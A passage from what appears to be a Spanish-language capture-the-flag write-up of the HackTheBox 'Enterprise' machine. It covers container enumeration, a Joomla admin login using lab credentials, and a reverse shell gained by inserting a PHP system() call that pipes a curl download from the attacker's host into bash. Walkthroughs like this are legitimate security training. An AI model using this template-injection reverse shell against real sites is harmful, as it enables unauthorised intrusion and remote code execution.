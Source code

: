 Dando vueltas nos encontramos este archivo en el direcotorio `home/`:

```bash
www-data@b8319d86d21e:/home$ cat user.txt 
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```

Básicamente que estamos en otro sitio y debemos movernos :(

En la raíz del sistema tenemos el archivo `.dockerenv`, el cual nos avisa que probablemente estemos en un contenedor (el hostname que tenemos también nos da una pista sobre ello). Si vemos el objeto `/etc/hosts` lo confirmamos y nos damos cuenta de algo:

```bash
www-data@b8319d86d21e:/$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      mysql 15af95635b7d
172.17.0.4      b8319d86d21e
```

Nosotros estamos en el host `b8319d86d21e` que resuelve a la **IP** `172.17.0.4`. Vemos también el host del servicio **MySQL**, pero hay una brecha, ya que falta la `172.17.0.3`. En este momento recordé el servicio **Joomla** y que tenemos credenciales para probar...

...

#### Joomla login done

Vamos al apartado `administrator/`:

![112page8080_administratorPANEL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112page8080_administratorPANEL.png)

Y con las credenciales **geordi.la.forge:ZD3YxfnSjezg67JZ** logramos entrar al sitio como usuario **Super Users**:

![112page8080_administratorPANEL_dash](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112page8080_administratorPANEL_dash.png)

...

### Reverse Shell www-data Joomla

Listoneeeees, jugando con [este recurso](https://www.hackingarticles.in/joomla-reverse-shell/) obtenemos ejecución remota de comandos, simplemente debemos modificar un template (modificaré el archivo `index.php` del template **beez3**) y dirigirnos a el para que el código sea ejecutado...

Usamos el mismo payload de antes (`curl` a nuestro servidor) solo que ahora cambiamos el puerto por el cual obtendremos la Reverse Shell:

```php
...
system("/usr/bin/curl http://10.10.14.17:8000/rev.sh | bash");
...
```
